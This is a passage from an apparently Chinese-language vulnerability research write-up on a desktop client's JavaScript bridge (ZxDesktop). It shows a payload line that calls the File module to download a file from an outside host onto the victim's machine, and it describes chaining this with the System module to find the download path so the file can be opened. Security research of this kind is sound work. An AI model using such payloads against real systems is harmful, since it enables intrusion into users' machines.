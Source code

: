 [![](assets/1703487068-1dc355068a767b628fda2cb6cb0eef96.png)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image041.png)

至此，我们就获得了文件下载的攻击路径，我们可以根据对应参数这样构建 JS 代码：

```javascript
ZxDesktop.require("File").save({"url": "http://gh0st.cn:81/test.txt","name": "test.txt","path": "","chunkSize": "","size": "","fileData": ""});
```

我们已经获得了文件下载的功能，攻击路径就很明显了：用户下载文件，打开文件。但是实际操作中，我们打开文件还缺少一个路径，并且在实际的测试中，默认情况下，下载的文件是会保存在应用的数据目录的 null 目录下。

而这个目录可能会被用户更改（用户名也没法获取），所以我们需要搭配一个点去获取路径，在这里找到了 ZxDesktop 的 System 模块：

[![](assets/1703487068-8624167d01b08659f8189e1e84d23234.png)](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2023-12-18/image045.png)
